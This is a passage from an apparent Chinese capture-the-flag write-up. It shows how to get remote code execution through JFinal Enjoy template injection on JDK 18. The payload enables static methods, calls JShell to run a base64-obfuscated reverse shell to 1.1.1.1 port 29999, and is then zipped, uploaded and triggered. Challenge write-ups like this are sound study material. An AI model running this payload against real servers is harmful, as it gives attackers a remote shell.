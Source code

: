 image.png

完整的做法如下：

-   • 编写一个hello.html，内容为第一行所示，开启Enjoy模板的静态方法支持
    
-   • 因为题目为JDK18，调用JShell执行命令不受Module限制
    
-   • 将hello.html和upload.html打包为admin.zip
    

```plain
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec(new String("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"));'))
zip admin.zip hello.html upload.html
```

![图片](assets/1701827499-1ca28fe30655d6339bba146e3fd44a7e.png "null")

image.png

上传admin.zip

![图片](assets/1701827499-e0119760f2157032659dc0867948dad4.png "null")

image.png

访问/admin/hello路由，开启Enjoy模板的静态方法支持

![图片](assets/1701827499-501afc266f2ba08e049206b47b0e3970.png "null")
